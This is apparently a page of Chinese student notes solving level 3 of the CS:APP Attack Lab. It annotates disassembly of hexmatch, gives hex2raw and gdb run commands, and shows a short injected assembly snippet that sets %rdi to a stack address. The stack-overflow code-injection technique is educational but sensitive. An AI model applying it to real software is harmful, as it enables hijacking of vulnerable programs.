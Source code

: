```
  4018ba:	b8 00 00 00 00       	mov    $0x0,%eax
  4018bf:	e8 ac f5 ff ff       	callq  400e70 <__sprintf_chk@plt>
  4018c4:	ba 09 00 00 00       	mov    $0x9,%edx  #%edx第三个参数  9
  4018c9:	48 89 de             	mov    %rbx,%rsi  #%rsi第二个参数  val cookie处的hex转化为string
  4018cc:	48 89 ef             	mov    %rbp,%rdi  #%rdi第一个参数 sval 输入的string
  4018cf:	e8 cc f3 ff ff       	callq  400ca0 <strncmp@plt>
  4018d4:	85 c0                	test   %eax,%eax
  4018d6:	0f 94 c0             	sete   %al
  4018d9:	0f b6 c0             	movzbl %al,%eax
  4018dc:	48 8b 74 24 78       	mov    0x78(%rsp),%rsi
  4018e1:	64 48 33 34 25 28 00 	xor    %fs:0x28,%rsi
  4018e8:	00 00 
  4018ea:	74 05                	je     4018f1 <hexmatch+0xa5>
  4018ec:	e8 ef f3 ff ff       	callq  400ce0 <__stack_chk_fail@plt>
  4018f1:	48 83 ec 80          	sub    $0xffffffffffffff80,%rsp
  4018f5:	5b                   	pop    %rbx
  4018f6:	5d                   	pop    %rbp
  4018f7:	41 5c                	pop    %r12
  4018f9:	c3                   	retq   

```
可见touch3()的入口地址为0x4018fa


%eax为0则跳转，但是我们不希望跳转，所以%eax需要为1

建立level3答案文件ctarget_l3.txt


用以下命令将ctarget_l3.txt 转换为ctarget_l3-raw.txt --保存输入getbuf()的字符串

```

./hex2raw < ctarget_l3.txt > ctarget_l3-raw.txt
```
输入 

```
run -q < ctarget_l3-raw.txt 

```
cookie的值 8个字节并没有改变0xfa	0x97	0xb9	0x59	0x00	0x00	0x00	0x00

生成level3的需要注入的代码，首先建立一个ctarget_l3.s文件输入将touch3的%rdi(输入参数sval)置为exploit string中某个的地址

```
mov    $0x5561dc80,%rdi
ret
```


```
unix> gcc -c ctarget_l3.s 
unix> objdump -d ctarget_l3.o > ctarget_l3.d 
```
打开ctarget_l3.d即可得到汇编代码的机器码
